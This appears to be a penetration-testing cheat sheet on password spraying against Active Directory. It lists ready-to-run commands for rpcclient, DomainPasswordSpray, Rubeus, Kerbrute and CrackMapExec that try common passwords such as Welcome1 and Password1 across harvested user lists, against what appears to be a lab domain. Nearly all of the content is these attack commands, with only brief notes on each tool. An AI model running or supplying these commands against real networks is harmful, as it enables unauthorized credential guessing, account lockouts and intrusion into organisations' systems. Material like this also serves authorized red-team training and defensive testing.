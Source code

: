 [https://github.com/initstring/linkedin2username](https://github.com/initstring/linkedin2username)

[Top tools for password-spraying attacks in active directory networks - Infosec Resources](https://resources.infosecinstitute.com/topic/top-tools-for-password-spraying-attacks-in-active-directory-networks/)

## [+] From Linux

### [-] `rpcclient`

```bash
for username in $(cat valid_users.txt);do rpcclient -U "$username%Welcome1" -c "getusername;quit" $dc_ip | grep Authority; done
```

## [+] From Windows

### [-] `DomainPasswordSpray.ps1`

- https://github.com/dafthack/DomainPasswordSpray

```bash
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

Since the host is domain-joined, we will skip the `-UserList` flag and let the tool generate a list for us.

### [-] `Rubeus` - Password-Spray

- Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.
- hint: tickets save as `.kirbi` for Rubeus, `.ccache` for Impacket

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

## [+] cross-platform (Windows/Linux)

### [-] `Kerbrute`

```bash
kerbrute passwordspray -d inlanefreight.local --dc $dc_ip valid_users.txt  Welcome1
```

### [-] `CrackMapExec`

```bash
crackmapexec smb $ip -u valid_users.txt -p Password123 | grep +
```
